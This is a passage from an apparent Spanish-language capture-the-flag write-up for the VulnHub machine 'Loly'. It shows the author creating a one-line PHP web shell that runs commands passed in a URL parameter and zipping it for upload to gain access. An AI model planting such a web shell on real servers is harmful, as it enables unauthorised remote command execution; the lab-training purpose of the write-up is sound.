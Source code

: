 Si se subio y si vamos a ver si lo descomprimio

![](/assets/images/vh-writeup-loly/Web10.png)

Y funciona asi que ahora podemos ganar acceso al sistema 

![](/assets/images/vh-writeup-loly/Web11.png)

Vamos a subirlo a ver si funciona

```bash
❯ nvim cmd.php
❯ catn cmd.php
<?php
  echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>";
?>
❯ rm comprimido.zip
❯ zip comprimido.zip cmd.php
  adding: cmd.php (deflated 3%)
```

Funciona

![](/assets/images/vh-writeup-loly/Web12.png)
